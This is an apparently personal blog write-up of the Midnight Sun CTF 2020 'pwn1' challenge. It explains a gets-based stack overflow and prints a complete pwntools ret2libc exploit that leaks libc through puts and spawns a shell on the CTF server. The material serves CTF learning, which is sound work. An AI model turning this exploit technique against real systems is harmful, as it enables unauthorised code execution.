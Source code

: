 ```yaml
---
layout: post
title: Midnight Sun CTF 2020 Quals - pwn1 
---
```


> An homage to pwny.racing, we present... speedrun pwn challenges. These bite-sized challenges should serve as a nice warm-up for your pwning skills.
>
> Files: [repo][repo]

## Analysis

Binary info:

{% highlight shell_session %}
ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, 
for GNU/Linux 3.2.0, BuildID[sha1]=c6454068347641785d5aff4a7402fec917f9485d, stripped

Canary                        : ✘
NX                            : ✓
PIE                           : ✘
Fortify                       : ✘
RelRO                         : Partial
{% endhighlight %}

Decompiling challenge in IDA very quickly reveals vulnerability. Function `gets` is used to read data from user directly the buffer `v4` which obviously leads to buffer overflow vulnerability.

![code decompiled][decompiled]

Pushing `rbp` and subtracting from the stack 0x40 for local variables.

![code disassembly][disassembly]

In order to overwrite the return address it is required to send `0x40 (64) + 0x8 (rbp) + "AAAAAAAA"`. This will result in overwriting RIP with `"AAAAAAAA"`.

Our strategy for exploiting binary will be following:
1. Leak libc address by using `puts` and return back to main to send another payload.
2. Send payload to perform ret2libc attack.

Lets leak libc printf address and do the calculations.
{% highlight python %}
pop_rdi = 0x400783 # : pop rdi ; ret
main = 0x400698

# leak libc
payload = (
    b"A" * 72 +
    p64(pop_rdi) +
    p64(exe.got["printf"]) +
    p64(exe.plt["puts"]) +
    p64(main)

)
io.sendline(payload)

leak = u64(io.recvline().strip().ljust(8, b"\x00"))
libc.address = leak - libc.sym.printf

log.info("Leak: 0x%x", leak)
log.info("Libc: 0x%x", libc.address)
{% endhighlight %}

Sending payload to perform ret2libc attack.

{% highlight python %}
payload = (
    b"A" * 72 +
    p64(ret) +
    p64(pop_rdi) +
    p64(next(libc.search(b"/bin/sh"))) +
    p64(libc.sym.system)
)
io.sendline(payload)

io.interactive()
{% endhighlight %}

This results in getting interactive shell.

## Full exploit 

{% highlight python %}
#!/usr/bin/env python3

from pwn import *

exe = context.binary = ELF('./pwn1')
libc = ELF("./libc.so")

host = args.HOST or 'pwn1-01.play.midnightsunctf.se'
port = int(args.PORT or 10001)

def local(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

gdbscript = '''
continue
'''.format(**locals())

io = start(env={"LD_PRELOAD": "./libc.so"})
io.recvuntil("buffer: ")

pop_rdi = 0x400783 # : pop rdi ; ret
ret = 0x400784 # : ret
main = 0x400698

# leak libc
payload = (
    b"A" * 72 +
    p64(pop_rdi) +
    p64(exe.got["printf"]) +
    p64(exe.plt["puts"]) +
    p64(main)

)
io.sendline(payload)
leak = u64(io.recvline().strip().ljust(8, b"\x00"))
libc.address = leak - libc.sym.printf

log.info("Leak: 0x%x", leak)
log.info("Libc: 0x%x", libc.address)

io.recvuntil("buffer: ")
payload = (
    b"A" * 72 +
    p64(ret) +
    p64(pop_rdi) +
    p64(next(libc.search(b"/bin/sh"))) +
    p64(libc.sym.system)
)
io.sendline(payload)

io.interactive()
{% endhighlight %}

[repo]: https://github.com/r0ck3tz/ctfs/tree/master/2020/midnightsun/pwn1
[decompiled]: {{site.baseurl}}/ctf/2020-04-13-midnightsunctf-pwn1/decompiled.png
[disassembly]: {{site.baseurl}}/ctf/2020-04-13-midnightsunctf-pwn1/disassembly.png

